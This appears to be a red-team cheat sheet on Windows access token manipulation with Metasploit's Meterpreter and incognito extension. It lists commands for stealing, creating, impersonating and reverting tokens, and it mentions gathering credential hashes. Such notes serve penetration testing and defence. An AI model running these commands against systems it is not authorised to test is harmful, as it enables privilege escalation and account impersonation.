 # Metasploit

## Help Menu

TODO: Fill this info

```
meterpreter > load incognito

Incognito Commands
==================

    Command              Description
    -------              -----------
    add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    snarf_hashes         Snarf challenge/response hashes for every token
```

## 01 - Steal Token

```
meterpreter > steal_token <pid>
```

Enumerate current user and process identifier.

```
meterpreter > getuid

meterpreter > getpid
```

Drop token to revert back to original self.

```
meterpreter > drop_token
```

## 02 - Make Token

```
meterpreter > run post/windows/manage/make_token domain=<domain> username=<username> password=<password>
```

Enumerate current user with privileges.

```
meterpreter > getuid

meterpreter > getprivs
```

## 03 - Token Impersonation

List available usernames as delegation tokens to impersonate.

```
meterpreter > list_tokens -u

meterpreter > run post/windows/gather/enum_tokens

meterpreter > run post/windows/gather/enum_domain_tokens
```

List available groups as delegation tokens to impersonate.

```
meterpreter > list_tokens -g
```

Impersonate token.

```
meterpreter > impersonate_token "<DOMAIN>\<username>"
```

Enumerate current user with privileges.

```
meterpreter > getuid

meterpreter > getprivs
```

## 04 - Revert Token

Revert back to original privileges.

```
meterpreter > rev2self
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Make Token Manage Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/make_token.md)

### Pentest Lab

- [Pentestlab Blog: Token Stealing and Incognito](https://pentestlab.blog/2012/08/07/token-stealing-and-incognito/)

### NCCGroup

- [NCCGroup: Demystifying Cobalt Strike’s "make_token" Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

### DMCXBlue

- [DMCXBlue Gitbook: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)

### Exploit Database

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)